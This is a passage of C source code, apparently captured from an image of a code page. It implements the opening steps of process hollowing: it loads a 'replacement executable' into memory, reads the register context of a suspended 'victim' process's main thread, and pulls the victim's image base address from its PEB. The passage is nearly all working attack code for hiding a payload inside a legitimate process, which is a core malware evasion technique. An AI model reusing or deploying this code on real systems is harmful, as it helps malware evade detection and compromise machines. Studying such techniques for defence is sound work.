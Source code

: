 ```C#
		OPEN_EXISTING,
		0,
		0
	);

	if (hReplacement == INVALID_HANDLE_VALUE) {
		printf("[-] Unable to open replacement executable %i\r\n", GetLastError());
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}

	DWORD replacementSize = GetFileSize(
		hReplacement,
		0);
	printf("[+] Replacement executable opened\r\n");
	printf("\t[*] Size %i bytes\r\n", replacementSize);

	
	// Allocate memory for replacement executable and then load it
	PVOID pReplacementImage = VirtualAlloc(
		0, 
		replacementSize, 
		MEM_COMMIT | MEM_RESERVE, 
		PAGE_READWRITE);

	DWORD totalNumberofBytesRead;

	if (!ReadFile(
			hReplacement, 
			pReplacementImage, 
			replacementSize, 
			&totalNumberofBytesRead, 
			0)) {
		printf("[-] Unable to read the replacement executable into an image in memory %i\r\n", GetLastError());
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}
	CloseHandle(hReplacement);
	printf("[+] Read replacement executable into memory\r\n");
	printf("\t[*] In current process at 0x%08x\r\n", (UINT)pReplacementImage);

	
	// Obtain context / register contents of victim process's primary thread
	CONTEXT victimContext;
	victimContext.ContextFlags = CONTEXT_FULL;
	GetThreadContext(pVictimProcessInfo->hThread, 
		&victimContext);
	printf("[+] Obtained context from victim process's primary thread\r\n");
	printf("\t[*] Victim PEB address / EBX = 0x%08x\r\n", (UINT)victimContext.Ebx);
	printf("\t[*] Victim entry point / EAX = 0x%08x\r\n", (UINT)victimContext.Eax);

	
	// Get base address of the victim executable
	PVOID pVictimImageBaseAddress;
	ReadProcessMemory(
		pVictimProcessInfo->hProcess, 
		(PVOID)(victimContext.Ebx + 8), 
		&pVictimImageBaseAddress, 
		sizeof(PVOID), 
		0);
	printf("[+] Extracted image base address of victim process\r\n");
	printf("\t[*] Address: 0x%08x\r\n", (UINT)pVictimImageBaseAddress);
```